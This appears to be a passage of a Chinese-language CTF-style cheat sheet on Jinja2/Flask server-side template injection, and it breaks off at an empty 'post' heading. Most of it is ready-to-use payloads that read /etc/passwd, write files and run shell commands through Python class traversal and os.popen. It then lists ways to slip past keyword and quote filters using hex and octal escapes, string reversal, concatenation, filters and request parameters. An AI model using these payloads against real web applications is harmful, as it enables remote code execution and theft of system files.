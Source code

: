 2. 命令执行 or 文件读取

```
1.读文件
{{().__class__.__bases__[0].__subclasses__()[40]("/etc/passwd").read()}}
2.写文件
{{().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')}}
3.命令执行
{{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("cat /flag").read()')}}
```

### 6. 常见绕过

1. 当过滤关键字如 “class”、"config"、"eval"、"os" 等

```
1.没过滤引号，使用其他进制，可以使用[]加一下字符反转其他进制绕过
   1.1 其他进制
       ''.__class__ => ''["\137\137\143\154\141\163\163\137\137"](8进制)
       ''.__class__ => ''["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"](16进制)
       {{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[80]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x70\x6f\x70\x65\x6e\x28\x27\x6c\x73\x27\x29")['\x72\x65\x61\x64']()}}
   1.2 字符反转
       ''.__class__ => ''["__ssalc__"[::-1]]
   1.3 字符串拼接
       ''.__class__ => ''["__cla""ss__"]
       {{''.__class__.__mro__[1].__subclasses__()[59].__init__.__globals__['__buil'+'tins__'[::-1]]['eval']('__import__("os").popen("ls").read()')}}
   1.4 base64 rot13 hex
       ''.__class__ => ''['X19jbGFzc19f'.decode('base64')]
   1.5 lower
       ''.__class__ => ''["__CLASS__"|lower]
   1.6 join
       ''.__class__ => ''[["__clas","s__"]|join]  or ''[("__clas","s__")|join]
   1.7 format
       ''.__class__ => ''["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
   1.8 replace reverse
       ''.__class__ => ''|attr("__ssalc__"|reverse)
2.过滤了引号，通过request将所需的变量从请求中其他参数获得
   2.1 主要利用一下几种
        request.args.x1       get传参
        request.values.x1     post传参
        request.cookies
        request.form.x1       post传参    (Content-Type:applicaation/x-www-form-urlencoded或   multipart/form-data)
        request.data          post传参    (Content-Type:a/b)
        request.json        post传json  (Content-Type: application/json)
    2.2 利用request和attr构造payload     
//get    {{request|attr((request.args.application)|join)|attr((request.args.usc*2,request.args.globals,request.args.usc*2)|join)|attr((request.args.usc*2,request.args.getitem,request.args.usc*2)|join)((request.args.usc*2,request.args.builtins,request.args.usc*2)|join)|attr((request.args.usc*2,request.args.getitem,request.args.usc*2)|join)((request.args.usc*2,request.args.import,request.args.usc*2)|join)((request.args.os)|join)|attr((request.args.popen)|join)((request.args.id)|join)|attr((request.args.read)|join)()}}&usc=_&application=application&globals=globals&getitem=getitem&builtins=builtins&import=import&os=os&popen=popen&id=cat%20flag.txt&read=read
//post
```